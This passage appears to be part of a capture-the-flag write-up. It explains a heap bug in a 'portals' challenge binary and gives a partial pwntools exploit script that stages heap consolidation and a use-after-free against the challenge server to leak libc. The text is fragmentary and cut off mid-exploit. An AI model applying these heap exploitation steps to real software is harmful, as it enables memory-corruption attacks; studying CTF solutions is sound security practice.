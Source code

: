 ```m``` option calls ```leaveMessage()``` function, that, if ```now->msgSize``` is zero, asks for an integer ```N``` in input and sets ```now->msgSize``` equal to ```N*16```; in this case, it also calls ```malloc``` with that size and sets ```now->msg``` to the pointer returned by ```malloc```. At last, in both cases (```now->msgSize``` == 0, or not), it takes input from stdin in the buffer pointed by ```now->msg``` using ```fgets```:
    if b'Somebody left notes on the ground' in lines[0]:
        msg = lines[1]
        lines = lines[2:]
    children = []
    try:
        while portals:
            data = lines.pop(0)
            if b'There is a portal' in data:
                try:
                    child_year = int(data.decode().strip().split()[-2])
                    children.append(child_year)
                except:
                    pass
            else:
                portals = False
    except:
        pass
    return year, msg, children


def main():
    local = False
    elf = ELF("./patchelf_portals")
    libc = ELF("./libc-2.31.so")
    context.binary = elf
    if local:
        r = elf.process()
    else:
        r = remote("pwn.chall.pwnoh.io", 13374)
    root_portal = 2022
    first_portal = 2030
    second_portal = 2040
    third_portal = 2050
    r.recvuntil('!!\n\n')
    read_description(r)
    # step 1: get libc leak
    # 1.1: heap consolidation to make "malloc" put pointers to main_arena
    # 1.1.1: allocate a big chunk and a small chunk
    open_portal(r, first_portal)
    take_portal(r, first_portal)
    open_portal(r, root_portal)
    leave_message(r, 1000, b'aaaa')
    take_portal(r, root_portal)

    open_portal(r, second_portal)
    take_portal(r, second_portal)
    open_portal(r, root_portal)
    leave_message(r, 10, b'bbbb')
    take_portal(r, root_portal)

    # 1.1.2: prepare the UAF in the third portal to get the libc leak
    open_portal(r, third_portal)
    take_portal(r, third_portal)
    open_portal(r, first_portal)
    open_portal(r, root_portal)
    take_portal(r, root_portal)

    # 1.1.3: free the first and the second portal, then allocate a big chunk
    # bigger than the previous, so they freed chunks get consolidated
    close_portal(r, first_portal)
    close_portal(r, second_portal)
    take_portal(r, third_portal)
    leave_message(r, 1100, b'cccc')
```